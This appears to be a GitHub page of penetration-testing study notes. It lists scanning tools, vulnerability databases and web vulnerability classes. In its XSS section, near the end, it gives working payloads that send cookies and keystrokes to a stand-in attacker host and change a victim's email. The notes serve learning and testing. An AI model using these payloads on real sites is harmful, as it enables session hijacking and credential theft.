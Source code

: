 Goal:
- Scanning and enumerating target to find possible vulnerability and access point!

Scanning Methods:
- Network Scanning
- Port Scanning
- Vulnerability Scanning

Network Scanning Tools
- [ping]: ICMP Scanning <ping 192.168.0.1>
- [fping]: Live Hosts <fping -g -r 1 192.168.0.0/24>
- [nmap]: Network Scan <nmap -sn 192.168.100.0/24>
- [hping3]: Packet generator
- [arp-scan]
- [masscan]
- [Wireshark]: Network Sniffing and Packet Analysis
- [Zeek]: Network Monitoring
- [Snort]: Intrusion Detection and Prevention
- [NetworkMiner]: Network Forensics
- [Brim]:Threat Hunting


Port Scanning Tools
- [nmap]

Vulnerability Scanning Tools and Public Repositories
- [Nessus]
- [Nexpose]
- [OpenVAS]
- [Nikto]
- [searchsploit]
- [ExploitDB] <https://www.exploit-db.com>
- [NVD] <https://nvd.nist.gov/vuln/search>
- [Mitre] <https://www.cve.org>
- [OVAL] <https://oval.cisecurity.org/repository>
- [rapid7] <https://www.rapid7.com/db/>
- [favicon] <https://wiki.owasp.org/index.php/OWASP_favicon_database>


Web Applicatin Vulnerability:
- [IDOR]: Insecure Direct Object Reference
    - plain
    - base64 <https://www.base64decode.org/>
    - hash <https://crackstation.net/>
    - Unpredictable
- [FI]: File inclusion
    - Local File Inclusion
    - Remote File Inclusion
- [PT]: Path Traversal
- [SSRF]: Server-Side Request Forgery
    - regular SSRF
    - Blind SSRF
- [XSS]: Cross-site Scripting
    - Proof Of Concept <script>alert('XSS');</script>
    - Session Stealing <script>fetch('https://hacker.thm/steal?cookie=' + btoa(document.cookie));</script>
    - Key Logger <script>document.onkeypress = function(e) { fetch('https://hacker.thm/log?key=' + btoa(e.key) );}</script>
    - Business Logic <script>user.changeEmail('attacker@hacker.thm');</script>
- [RCE]: Remote Code Execution
- [SQLi]: SQL Injection
    - In-Band SQL Injection
    - Blind SQLi
